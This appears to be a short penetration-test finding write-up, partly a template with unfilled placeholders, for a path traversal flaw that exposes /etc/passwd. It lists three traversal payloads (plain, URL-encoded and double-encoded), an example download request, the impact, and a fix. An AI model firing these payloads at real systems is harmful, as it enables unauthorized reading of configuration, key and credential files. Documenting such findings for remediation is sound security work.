 
# PS-007 — Path Traversal: Read Arbitrary File
**Date / Analyst:** $(date +%F) — Christopher Araque

## TL;DR
Parameter `file`/`path` is not sanitized; `../../..` leads to `/etc/passwd`.

## Endpoint
- <fill after recon> e.g., GET /download?file=../../../../../../etc/passwd

## Evidence
- Request/Response: [ps-007-request.txt](../../evidence/ps-traversal/ps-007-request.txt)
- Screenshot: ![PS‑007](../../evidence/ps-traversal/ps-007-screenshot.png)

## Payloads
../../../../../../etc/passwd
..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
..%252f..%252f..%252f..%252f..%252fetc%252fpasswd

## Impact
Sensitive file disclosure (configs/keys/creds).

## Fix
Canonicalize path; allow‑list files; deny `..` + encoded variants; sandbox/chroot.
